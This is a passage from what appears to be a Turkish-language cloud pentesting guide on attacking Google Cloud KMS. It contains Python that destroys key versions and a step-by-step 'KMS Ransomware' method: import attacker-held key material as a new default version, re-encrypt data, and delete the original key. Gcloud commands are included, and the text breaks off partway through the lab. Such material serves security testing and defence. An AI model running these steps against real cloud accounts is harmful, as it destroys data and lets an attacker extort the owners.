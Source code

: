 ```python
key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

# Call the API to destroy the key version.
client.destroy_crypto_key_version(request={'name': key_version_name})

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'  # Version number to disable and destroy

# Disable the key version
disable_key_version(project_id, location_id, key_ring_id, key_id, key_version)

# Destroy the key version
destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version)
```
### KMS Ransomware

AWS'de, KMS kaynak politikasını değiştirerek ve yalnızca saldırganın hesabının anahtarı kullanmasına izin vererek bir KMS anahtarını tamamen **çalmak** mümkündür. Bu kaynak politikaları GCP'de mevcut olmadığından, bu mümkün değildir.

Ancak, aşağıdaki adımları içeren küresel bir KMS Ransomware gerçekleştirmek için başka bir yol vardır:

* Saldırgan tarafından içe aktarılan bir anahtar materyali ile **anahtarın yeni bir versiyonunu** oluşturun

{% code overflow="wrap" %}
```bash
gcloud kms import-jobs create [IMPORT_JOB] --location [LOCATION] --keyring [KEY_RING] --import-method [IMPORT_METHOD] --protection-level [PROTECTION_LEVEL] --target-key [KEY]
```
{% endcode %}

* Bunu **varsayılan sürüm** olarak ayarlayın (gelecekte şifrelenen veriler için)
* **Eski verileri** yeni sürümle yeniden şifreleyin, önceki sürümle şifrelenmiş olanları.
* **KMS anahtarını silin**
* Artık yalnızca orijinal anahtar materyaline sahip olan saldırgan, şifrelenmiş verileri çözebilir.

#### İşte yeni bir sürümü içe aktarma ve eski verileri devre dışı bırakma/silme adımları:
```bash
# Encrypt something with the original key
echo "This is a sample text to encrypt" > /tmp/my-plaintext-file.txt
gcloud kms encrypt \
--location us-central1 \
--keyring kms-lab-2-keyring \
--key kms-lab-2-key \
--plaintext-file my-plaintext-file.txt \
--ciphertext-file my-encrypted-file.enc

# Decrypt it
gcloud kms decrypt \
--location us-central1 \
--keyring kms-lab-2-keyring \
--key kms-lab-2-key \
--ciphertext-file my-encrypted-file.enc \
--plaintext-file -


# Create an Import Job
```